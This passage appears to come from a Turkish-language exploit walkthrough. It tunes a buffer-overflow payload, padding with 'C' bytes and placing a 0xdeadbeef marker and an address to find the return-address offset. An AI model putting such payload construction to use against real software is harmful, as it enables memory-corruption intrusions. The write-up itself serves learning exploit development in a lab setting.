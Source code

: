 ![Screenshot](./screenshots/15.png)

return adresinden önce 15 tane c var o zaman paylodu şu şekil değiştirelim:

```
önceki hali:
packet3 = "\x43"*66*2 + "\x43"*8

yeni hali:
packet3 = "\x43"*15 + "\xef\xbe\xad\xde" + "\x08\xc0\x04\x08" + "\x43" * (66*2 - 15 - 8) + "\x43"*8
```

Bu sefer çalıştıralım:

![Screenshot](./screenshots/16.png)

İlk C karakterinin başına bir olay geliyor o yüzden bizim 16 girmemiz lazım:

```
yeni hali:
packet3 = "\x43"*16 + "\xef\xbe\xad\xde" + "\x08\xc0\x04\x08" + "\x43" * (66*2 - 16 - 8) + "\x43"*8
```
